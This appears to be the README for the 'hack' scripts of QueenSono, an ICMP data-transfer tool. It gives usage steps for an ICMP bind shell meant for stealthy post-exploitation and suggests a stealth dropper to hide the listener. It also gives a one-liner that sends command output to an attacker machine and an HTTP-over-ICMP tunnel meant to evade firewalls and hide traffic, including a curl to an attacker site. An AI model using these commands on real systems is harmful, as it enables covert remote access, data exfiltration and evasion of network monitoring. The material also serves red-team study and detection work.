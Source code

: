# Hack

<p align="center"><sup>🧞 "All scripts are there for inspiration and are probably not stable. If you see a good use case and need a more reliable solution, please open an issue"</sup></p>

Some fun things using `QueenSono`

* [Bind Shell](#bind-shell)
* [HTTP over ICMP tunneling](#http-over-icmp-tunneling)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [fileless-xec](https://github.com/ariary/fileless-xec) repo. Should I adapt it to use ICMP ? 🤔*

### One-liner redirect command output

Useful if you can't spawn a shell and thus don't have output for command. You could redirect the output to your attacker machine:
```
export CMD=$([cmd]);qssender send "$CMD" -d 1 -l $LISTEN -r $REMOTE -s 100 -N
```

## HTTP over ICMP tunneling

For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 
* Access internal webapp (in this case, put the `qsproxy` in the target machine and `qscurl` in the attacker machine)

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattackersite.com -H \"toto:titi\"
```

